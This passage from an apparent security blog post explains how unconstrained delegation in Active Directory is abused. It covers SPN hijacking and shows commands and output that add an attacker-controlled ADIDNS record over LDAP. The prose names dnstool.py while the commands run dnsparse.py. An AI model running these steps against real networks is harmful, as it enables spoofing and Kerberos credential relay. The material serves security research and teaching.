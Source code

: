 ```
    servicePrincipalName: TERMSRV/TESTME
                          TERMSRV/testme.testsegment.local
                          WSMAN/TESTME
                          WSMAN/testme.testsegment.local
```

If for whatever reason we can't modify the SPN to a hostname under the attackers control, we can always hijack the current SPN by modifying the DNS record or using your favourite spoofing/mitm attack, though this will break connectivity to the host, which I wouldn't recommend in production environments.

### Permissions to add/modify DNS records
After adding a new SPN that points to a hostname not in use on the network, we of course need to make sure the hostname we added resolves to our own IP. If the network you are in uses Active Directory-Integrated DNS, this should be straightforward. As Kevin Robertson described in [his blog about ADIDNS](https://blog.netspi.com/exploiting-adidns/), by default any authenticated user can create new DNS records, as long as there is no record yet for the hostname. So after we add the SPN for `attacker.corp.com` to our unconstrained delegation account, we can add a record for this hostname that points to our IP using for example PowerMad (different hostname used as example):

![powermad](/assets/img/kerberos/powermad.png){: .align-center}

I also added a tool to the krbrelayx repo that can perform DNS modifications (`dnstool.py`) in AD over LDAP:
```
user@localhost:~/adtools$ python dnsparse.py -u icorp\\testuser icorp-dc.internal.corp -r attacker -a add -d 10.1.1.2 
Password: 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Afterwards we can see the record exists in DNS:
```
user@localhost:~/adtools$ python dnsparse.py -u icorp\\testuser icorp-dc.internal.corp -r attacker -a query
Password: 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record attacker
DC=attacker,DC=internal.corp,CN=MicrosoftDNS,DC=DomainDnsZones,DC=internal,DC=corp
[+] Record entry:
 - Type: 1 (A) (Serial: 36)
 - Address: 10.1.1.2
```
And the record resolves after the DNS server refreshes the records from LDAP (which by default takes place every 180 seconds):
```
user@localhost:~/adtools$ nslookup attacker.internal.corp 192.168.111.2
Server:		192.168.111.2
Address:	192.168.111.2#53

Name:	attacker.internal.corp
Address: 10.1.1.2
```
